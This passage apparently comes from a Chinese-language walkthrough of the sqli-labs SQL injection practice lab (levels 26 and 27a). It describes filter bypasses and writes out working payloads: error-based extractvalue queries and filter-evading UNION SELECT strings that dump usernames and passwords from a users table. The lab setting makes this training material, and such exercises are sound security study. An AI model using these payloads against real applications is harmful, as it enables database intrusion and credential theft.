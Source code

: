 
或者
?id=1'||extractvalue(1,concat(0x7e,(sEleCt(group_concat(column_name))from(information_schema.columns)where(table_schema)=(database())and(table_name)='users')))||'




> 
<h3>2.8、第七步：爆数据</h3>
?id=1'||extractvalue(1,concat(0x7e,(sEleCt(substr((group_concat(username,password)),1,32))from(users))))||'

或者
 ?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),3/*%0a*/||/*%0a*/'1'='1




---


---


## 三、Less27a（GET-Blind based - All your UNION &amp; SELECT belong to us Double quote ）

> 
<h3>3.1、简介：（过滤-布尔盲注-双引号）</h3>
请求方法：GET
方法：过滤替换： /* , – , # , 空格 , /、union、select、UNION、SELECT、Union、Select+布尔盲注


> 
<h3>3.2、特点：</h3>
双引号字符型注入，可以使用union联合注入
无错误回显（即不能报错注入updatexml函数等）
正确和错误页面不同，可以进行布尔盲注，因为他有无错误回显
也可延时盲注


> 
<h3>3.3、利用过程：</h3>
基本上和Less26使用联合查询一样
进行布尔盲注（判断）
?id=0"unIon%0BSelEcT%0B1,database(),"3

…… 

